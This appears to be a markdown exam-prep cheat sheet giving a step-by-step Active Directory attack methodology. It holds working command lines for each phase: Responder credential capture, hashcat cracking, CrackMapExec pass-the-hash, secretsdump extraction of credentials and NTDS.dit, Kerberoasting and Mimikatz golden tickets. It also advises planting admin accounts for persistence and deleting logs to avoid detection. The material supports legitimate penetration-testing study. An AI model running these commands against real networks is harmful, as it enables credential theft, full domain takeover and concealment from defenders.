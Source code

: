 ```yaml
---

# 🛡️ Enhanced Active Directory Attack Methodology: Step-by-Step Guide

This methodology emphasizes detailed enumeration, attack path prioritization, and practical techniques directly from your notes. Each phase includes critical commands and exam tips for quick reference.

---
```


## 🔍 **Phase 1: Reconnaissance and Initial Access**

### 1. **Network Scanning and Identifying Vulnerabilities**

- **Identify Live Hosts and Open Ports:**
    - **Command:** `nmap -T4 -A -p- <target_IP_range>`
    - **📝 Note:** Use the `T` flag to adjust scan speed for stealth or speed.
- **Check for SMB Signing:**
    - **Command:** `nmap --script=smb2-security-mode.nse -p445 <target_IP>`
    - **💡 Look For:** "Message signing enabled but not required" to identify vulnerable SMB hosts.
- **Attempt Default Credentials on Services:**
    - Access services' web interfaces using common default logins (e.g., `admin:admin`).

### ✔️ **Checklist:**

- [ ]  Run Nmap scan
- [ ]  Check SMB signing status
- [ ]  Test default credentials on identified services

---

## 🎣 **Phase 2: Traffic Capture with Responder**

### 1. **Launch Responder to Capture Credentials**

- **Run Responder:**
    - **Command:** `sudo responder -I <interface> -wPv`
    - **⚠️ Replace `<interface>`** with your network interface (e.g., `eth0`).
- **Induce Network Traffic:**
    - Attempt to access a non-existent network share to trigger traffic: `\\\\\\\\<attacker_IP>\\\\invalid_share`.
- **Analyze Responder Output:**
    - **Save captured hashes** (e.g., NTLMv2 hashes) for further cracking attempts.

### ✔️ **Checklist:**

- [ ]  Run Responder on the network
- [ ]  Induce network traffic if no response is seen
- [ ]  Save captured hashes for cracking

---

## 🛠️ **Phase 3: Enhanced Enumeration and Prioritization**

### 1. **Enumerate Accounts and Domain Information**

- **Enumerate with `ldapdomaindump`:**
    - **Command:** `sudo /usr/bin/ldapdomaindump ldaps://<DC_IP> -u 'MARVEL\\\\\\\\<username>' -p <password>`
    - **Prioritize:** Check `domain_users_by_group.html` for high-privilege users (e.g., Domain Admins) and accounts with the `DONT_EXPIRE_PASSWD` flag.
- **Use BloodHound for Detailed Analysis:**
    - **Focus On:** "Find All Domain Admins" and "Kerberos Interaction" to identify attack paths.
- **Quick Assessment with PlumHound:**
    - **Commands:** Use `easy` flag for rapid checks and prioritize outputs like "Domain Admins (Direct)" and "Kerberoastable Users."

### ✔️ **Checklist:**

- [ ]  Run `ldapdomaindump` to gather domain information
- [ ]  Use BloodHound for comprehensive analysis
- [ ]  Perform a quick assessment with PlumHound

### 📌 **Common Flags Explained:**

- **`u` and `p` in `ldapdomaindump`**: Specify domain username and password for the connection.
- **`easy` flag in PlumHound:** Run predefined quick queries for rapid insight.

---

## 🚀 **Phase 4: Privilege Escalation and Lateral Movement**

### 1. **Crack Captured Hashes (Optional but Recommended)**

- **Use Hashcat for NTLM Hashes:**
    - **Command:** `hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --force --show`

### 2. **Pass-the-Hash and Pass-the-Password Attacks**

- **Pass-the-Hash with CrackMapExec:**
    - **Command:** `crackmapexec smb <target_IP_range> -u <username> -H "<hash>" --local-auth`
    - **💡 Look For:** "Pwn3d!" in the output to confirm successful access.
- **Pass-the-Password with CrackMapExec:**
    - **Command:** `crackmapexec smb <target_IP_range> -u <username> -d <domain> -p <password>`

### 3. **Credential Dumping with `secretsdump.py`**

- **Dump Credentials:**
    - **Command:** `secretsdump.py <domain>/<username>:<password>@<target_IP>`

### 4. **Kerberoasting and Token Impersonation**

- **Enumerate Service Accounts for Kerberoasting:**
    - **Command:** `sudo GetUserSPNs.py <domain>/<username>:<password> -dc-ip <DC_IP>`
- **Crack Kerberos Tickets:**
    - **Command:** `hashcat -m 13100 <ticket_file.txt> /usr/share/wordlists/rockyou.txt`
- **Token Impersonation with Metasploit:**
    - **Command:** `meterpreter > impersonate_token <domain>\\\\<username>`

### ✔️ **Checklist:**

- [ ]  Crack hashes using Hashcat
- [ ]  Attempt Pass-the-Hash and Pass-the-Password attacks
- [ ]  Use `secretsdump.py` to extract credentials
- [ ]  Enumerate service accounts using `GetUserSPNs.py`
- [ ]  Crack Kerberos tickets and attempt token impersonation

---

## 🏴 **Phase 5: Domain Controller Compromise**

### 1. **Dumping the NTDS.dit Database**

- **Extract NTLM Hashes:**
    - **Command:** `secretsdump.py <domain>/<username>:<password>@<DC_IP> -just-dc-ntlm`

### 2. **Crack NTLM Hashes for Domain Admin Access**

- **Use Hashcat:**
    - **Command:** `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`

### 3. **Golden Ticket Attack (If krbtgt is Compromised)**

- **Use Mimikatz to Create Golden Ticket:**
    - **Command:** `mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500 /ptt`

### ✔️ **Checklist:**

- [ ]  Dump NTDS.dit using `secretsdump.py`
- [ ]  Crack NTLM hashes with Hashcat
- [ ]  Create and use a Golden Ticket (if krbtgt is compromised)

---

## 🛡️ **Phase 6: Persistence, Clean-Up, and Adaptation**

### 1. **Establish Persistence**

- **Create New Admin Accounts:** If permitted, establish a new admin account for future access.

### 2. **Cover Your Tracks**

- **Clean Up Traces:** Remove tools, logs, and scripts used during the attack to minimize detection.

### 3. **Adapt and Adjust Strategy**

- **Refine Approach:** Use information gathered from enumeration tools (`ldapdomaindump`, BloodHound) to adapt your attack strategy.
- **Look for Additional Weaknesses:** Pivot to new attack methods if the current path is blocked.

### ✔️ **Checklist:**

- [ ]  Consider establishing persistence methods
- [ ]  Clean up traces if ethically permissible
- [ ]  Adjust strategy based on findings

---

## 🏆 **Key Considerations for Exam Success**

- **🎯 Focus on Specific Commands:** Practice each command to ensure familiarity.
- **⏱️ Manage Time Efficiently:** Streamline each phase for optimal exam performance.
- **🧩 Interpret Outputs:** Be able to quickly analyze the results from tools like Responder, CrackMapExec, and Hashcat.

---
